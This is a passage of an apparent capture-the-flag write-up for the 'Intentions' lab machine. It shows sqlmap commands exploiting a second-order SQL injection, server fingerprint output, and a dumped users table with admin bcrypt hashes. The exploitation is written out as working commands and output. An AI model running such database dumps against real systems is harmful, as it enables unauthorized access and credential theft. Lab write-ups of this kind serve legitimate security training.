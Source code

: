 Using the following command you can dump the entire database. This will get you all the data you need but wil also take a very long time. 

```
sqlmap -r sqli.txt --second-req Second_sqli.txt -p genres  --proxy http://127.0.0.1:8080 --tamper=space2comment --all
```

```
0.6.12-MariaDB-0ubuntu0.22.04.1
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
banner: '10.6.12-MariaDB-0ubuntu0.22.04.1'
current user: 'laravel@localhost'
current database: 'intentions'
fetching tables for databases: 'information_schema, intentions'
```



The above script will get you the hashes you want however if you want to speed it up you can just dump the specific table you need using the following command. By running the previous command i was able to figure out that the Database name was Intentions and there was a table Users. I then tried to dump this table.

```
sqlmap -r sqli.txt --second-req Second_sqli.txt -p genres  --proxy http://127.0.0.1:8080 --tamper=space2comment --no-escape  -D intentions -T users -C id,name,email,password,admin --dump

```
After running this for a little while we ended up with the following output including the hashes of both Steve and Greg. There were more users but these users were not administrative users so i didn't deem them interesting.

```
+----+-------+----------------------+--------------------------------------------------------------+-------+
| id | name  | email                | password                                                     | admin |
+----+-------+----------------------+--------------------------------------------------------------+-------+
| 1  | steve | steve@intentions.htb | $2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa | 1     |
| 2  |      | greg@intentions.htb  | $2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m | 1     |
+----+-------+----------------------+--------------------------------------------------------------+-------+

```
I tried to crack these hashes however this was unsuccessful. This means i must have missed something and continued my enumeration of the box.

### Accessing the Admin panel
